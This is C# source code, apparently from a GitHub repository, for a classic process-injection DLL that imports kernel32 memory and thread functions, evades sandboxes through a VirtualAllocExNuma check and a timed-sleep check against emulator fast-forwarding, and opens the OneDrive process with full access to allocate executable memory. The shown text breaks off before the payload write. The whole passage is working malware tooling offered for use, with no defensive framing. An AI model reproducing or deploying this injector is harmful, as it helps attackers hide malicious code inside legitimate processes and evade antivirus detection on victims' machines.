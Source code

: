     namespace ClassicProcessInjectorDLL
    {
        public class MyClass
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

            [DllImport("kernel32.dll")]
            static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

            [DllImport("kernel32.dll")]
            static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll")]
            static extern void Sleep(uint dwMilliseconds);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

            [DllImport("kernel32.dll")]
            static extern IntPtr GetCurrentProcess();

            public static void injector()
            {
                // Check if we're in a sandbox by calling a rare-emulated API
                if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
                {
                    return;
                }

                // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
                var rand = new Random();
                uint dream = (uint)rand.Next(10000, 20000);
                double delta = dream / 1000 - 0.5;
                DateTime before = DateTime.Now;
                Sleep(dream);
                if (DateTime.Now.Subtract(before).TotalSeconds < delta)
                {
                    Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                    return;
                }
                //string processName = args[0];
                Process[] pList = Process.GetProcessesByName("OneDrive");
                if (pList.Length == 0)
                {
                    Console.WriteLine("[-] No such process!");
                    System.Environment.Exit(1);
                }
                int processId = pList[0].Id;
                // 0x001F0FFF = PROCESS_ALL_ACCESS
                IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
